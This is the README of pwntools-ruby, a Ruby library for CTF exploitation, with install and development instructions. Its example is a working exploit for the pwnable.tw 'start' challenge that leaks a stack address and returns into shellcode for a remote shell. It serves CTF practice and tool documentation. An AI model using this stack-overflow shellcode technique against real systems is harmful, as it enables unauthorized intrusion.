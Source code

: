 [![GitHub stars](https://img.shields.io/github/stars/peter50216/pwntools-ruby.svg)](https://github.com/peter50216/pwntools-ruby/stargazers)
[![Dependency Status](https://img.shields.io/gemnasium/peter50216/pwntools-ruby.svg)](https://gemnasium.com/peter50216/pwntools-ruby)
[![Build Status](https://img.shields.io/travis/peter50216/pwntools-ruby.svg)](https://travis-ci.org/peter50216/pwntools-ruby)
[![Test Coverage](https://img.shields.io/codeclimate/coverage/github/peter50216/pwntools-ruby.svg)](https://codeclimate.com/github/peter50216/pwntools-ruby/coverage)
[![Code Climate](https://img.shields.io/codeclimate/github/peter50216/pwntools-ruby.svg)](https://codeclimate.com/github/peter50216/pwntools-ruby)
[![Inline docs](https://inch-ci.org/github/peter50216/pwntools-ruby.svg)](https://inch-ci.org/github/peter50216/pwntools-ruby)
[![MIT License](https://img.shields.io/badge/license-MIT-blue.svg)](http://choosealicense.com/licenses/mit/)

# pwntools-ruby

Always sad when playing CTF that there's nothing equivalent to pwntools in Python.
While pwntools is awesome, I always love Ruby far more than Python...
So this is an attempt to create such library.

Would try to have consistent naming with original pwntools, and do things in Ruby style.

# Example Usage

Here's an exploitation for `start` which is a challenge on `pwnable.tw`.

```ruby
# encoding: ASCII-8BIT
# The encoding line is important most time, or you'll get "\u0000" when using "\x00" in code,
# which is NOT what we want when doing pwn...

require 'pwn'

context.log_level = :debug
z = Sock.new 'chall.pwnable.tw', 10000

z.recvuntil "Let's start the CTF:"
z.send p32(0x8048087).rjust(0x18, 'A')
stk = u32(z.recvuntil "\xff")
log.info "stack address: #{stk.hex}" # Log stack address

# Return to shellcode
addr = stk + 0x14
payload = addr.p32.rjust(0x18, 'A') + asm(shellcraft.sh)
z.write payload

# Switch to interactive mode
z.interact
```

More features and details can be found in the
![documentation](http://www.rubydoc.info/github/peter50216/pwntools-ruby/master/frames).

# Installation

Since there are two gems, which `pwntools-ruby` depends on, didn't be published to rubygems,
you should install them by self. :disappointed:

```sh
gem install pwntools

git clone https://github.com/bnagy/crabstone.git /tmp/crabstone
cd /tmp/crabstone
gem build crabstone.gemspec
gem install crabstone

git clone https://github.com/sashs/ruby-keystone.git /tmp/ruby-keystone
cd /tmp/ruby-keystone/keystone_gem
gem build keystone.gemspec
gem install keystone
```

Some of the features (assembling/disassembling) require non-Ruby dependencies. Checkout the
installation guide for
[keystone-engine](https://github.com/keystone-engine/keystone/tree/master/docs) and
[capstone-engine](http://www.capstone-engine.org/documentation.html).

Or you are able to get running quickly with

```sh
# Install Capstone
sudo apt-get install libcapstone3

# Compile and install Keystone from source
sudo apt-get install cmake
git clone https://github.com/keystone-engine/keystone.git /tmp/keystone
cd /tmp/keystone
mkdir build
cd build
../make-share.sh
sudo make install
```

# Development
```sh
git clone git@github.com:peter50216/pwntools-ruby.git
cd pwntools-ruby
rake
```

# Note to irb users
irb defines `main.context`.

For the ease of exploit development in irb, that method would be removed if you use `require 'pwn'`.

You can still get the `IRB::Context` by `irb_context`.
